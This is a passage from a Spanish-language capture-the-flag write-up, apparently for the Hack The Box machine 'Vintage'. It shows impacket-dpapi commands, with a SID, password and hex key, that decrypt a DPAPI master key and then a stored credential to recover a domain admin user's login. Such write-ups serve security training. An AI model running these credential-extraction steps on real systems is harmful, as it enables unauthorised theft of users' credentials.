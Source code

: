 
<figure><img src="../../../.gitbook/assets/2742_vmware_yaRMMIhse0.png" alt=""><figcaption></figcaption></figure>

Una vez descargados ambos archivos de manera local en nuestro equipo, utilizamos la herramienta **impacket-dpapi** para desencriptar la _master key_ de DPAPI.

Con esta _master key_ en mano, procedimos a desencriptar los datos protegidos por DPAPI, lo que nos permitió acceder a las credenciales de un usuario del dominio (c.neri\_adm@vintage.htb).

{% code overflow="wrap" %}
```bash
impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne

impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2743_vmware_0uNZc0viwZ.png" alt=""><figcaption></figcaption></figure>
